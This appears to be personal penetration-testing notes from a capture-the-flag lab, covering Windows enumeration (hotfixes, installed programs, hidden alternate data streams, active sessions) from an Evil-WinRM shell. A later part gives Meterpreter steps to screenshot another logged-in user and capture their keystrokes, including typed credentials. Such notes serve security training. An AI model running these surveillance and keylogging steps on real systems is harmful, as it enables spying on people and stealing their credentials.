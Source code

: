 
### PowerShell 
```
PS C:\htb> Get-HotFix | ft -AutoSize
```
## Installed Programs
### cmd
```
C:\htb> wmic product get name
```
### PowerShell 
```
PS C:\htb> Get-WmiObject -Class Win32_Product |  select Name, Version
```
## Alternate Data Streams
```
https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/
```
⇒ If we input this command within the windows terminal we could see hidden files
```
dir /R
```
We can use many tools to preview the other hm file like 
```
more < FILE
```
example hm.txt:root.txt:$DATA
```
more <  hm.txt:root.txt:$DATA
```
## qwinsta (docs) will show information about all the active sessions on the box
```
qwinsta
```
```
*Evil-WinRM* PS C:\xampp\htdocs> qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
>services                                    0  Disc
 console           drbrown                   1  Active
 rdp-tcp                                 65536  Listen
```
The > shows the session the current console is running in, with ID 0. There is another user, drbrown, logged in to an interactive session with ID 1. I got a similar result recently on Reboud and used it with a cross session relay attack to get authenticated as the logged in user. In this case, the logged in user is the same user I am currently authenticated as, just in an interactive session.
1. Get a meterpreter session then use screengrab to determine what the other user is doing
2. If you get an error then migrate your pid to another one using migrate
```
meterpreter > screengrab
```
3. If for example another user is typing credentials then you can use the keyscan_start command to capture the key logs
```
meterpreter > keyscan_start
```
```
Starting the keystroke sniffer ...                                                                                                                 
meterpreter > keyscan_dump                                  
Dumping captured keystrokes...
```